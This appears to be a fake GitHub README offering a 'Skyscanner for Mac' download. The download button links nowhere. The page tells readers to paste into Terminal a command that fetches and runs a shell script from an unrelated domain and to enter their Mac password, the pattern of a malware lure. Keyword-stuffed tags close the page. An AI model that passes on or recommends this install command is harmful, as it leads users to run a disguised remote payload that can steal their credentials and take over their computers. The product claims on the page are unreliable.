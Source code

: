 # Skyscanner — Download For Mac OS

Skyscanner for Mac is your all-in-one travel planning app. With the native macOS app, you can seamlessly compare flights, hotels, and car rentals across thousands of providers in real time. Enjoy a streamlined experience for booking your next trip with ease—right from your Mac.

[![Download for macOS](https://img.shields.io/badge/Download%20for-macOS-blue.svg?style=for-the-badge\&logo=apple)](#)

If the download button doesn’t work, follow the instructions below to install Skyscanner manually using your Terminal.

---

## 📦 How to Install Skyscanner For Mac

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag the Skyscanner app into your Applications folder.
3. Launch Skyscanner from Applications.

### Installation via a command in the terminal:

1. Copy the following installation command:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal and paste the command.
3. Press “Return” and enter your Mac password.

---

## ✈️ What You Can Do with Skyscanner

* 🌍 **Compare Flights Worldwide** – Find the best routes and cheapest fares.
* 🏨 **Book Hotels** – Browse reviews and get the best accommodation deals.
* 🚗 **Rent Cars** – Choose from thousands of rental services globally.
* 🧳 **Track Prices** – Set alerts and never miss a price drop.
* 📆 **Plan Trips Smartly** – Use flexible date search and explore destinations.

---

## About Skyscanner For Mac

Skyscanner for Mac makes travel discovery and booking fast, easy, and intuitive. With a sleek native interface and system-level optimization, this macOS app allows users to search flights, hotels, and car rentals in one place—without ever opening a browser.

It’s ideal for digital nomads, business travelers, and vacation planners looking to explore the world on a budget or schedule. From spontaneous weekend getaways to multi-city business trips, Skyscanner helps you find the best options quickly.

Optimized for both Apple Silicon and Intel Macs, the app ensures smooth performance, real-time price updates, and secure booking integration.

---

## 🌟 Key Benefits

* ✈️ Search and compare millions of flight routes
* 🏩 Access hotel deals from trusted providers
* 🚘 Rent cars at your destination hassle-free
* 📊 Track price trends and set alerts
* 🔒 Secure, real-time booking connections
* 🍎 Built natively for macOS M1/M2 and Intel

---

## 🖼 Preview

![Skyscanner App Home](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSmjrLoPvDPLtrhHGsQMvzZDv2IEr5zWOuOAg&s)

*Flight and hotel search interface*

![Skyscanner Booking View](https://i.postimg.cc/QMPk1MYR/alibaba-tracking-list.png)
*Trip overview and pricing*

---

## 🔍 Tags

skyscanner for mac, skyscanner app, sky scanne r, skyscanner application,skyscanner app mac, skyscanner mac download, skyscanner macos, download skyscanner for mac, 

